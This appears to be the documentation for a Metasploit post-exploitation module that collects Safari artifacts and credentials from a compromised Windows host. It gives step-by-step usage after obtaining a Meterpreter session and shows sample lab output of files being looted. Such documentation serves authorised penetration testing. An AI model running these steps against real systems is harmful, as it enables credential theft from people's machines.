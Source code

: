 ## Module Description

This post-exploitation module gathers artifacts found on safari related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/safari
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifcats/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_CREDENTIALS
This option is turned on by defalt and will perform the credentials extraction use the predefined regular expression. The 'Store loot' options must be turned on in order for this to take place.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/safari) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Safari's parent folder found
[*] Safari's parent folder found
[*] Safari's Webpageicons.db file found
[*] Downloading C:\Users\IEUser\AppData\Local\Apple Computer\Safari\WebpageIcons.db
[*] Safari Webpageicons.db downloaded
[+] File saved to:  /root/.msf4/loot/20210513132035_default_192.168.56.106_safariWebpageIco_644838.db

[+] File with credentials saved:  /root/.msf4/loot/20210513132035_default_192.168.56.106_EXTRACTIONSWebpa_544464.db
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```
 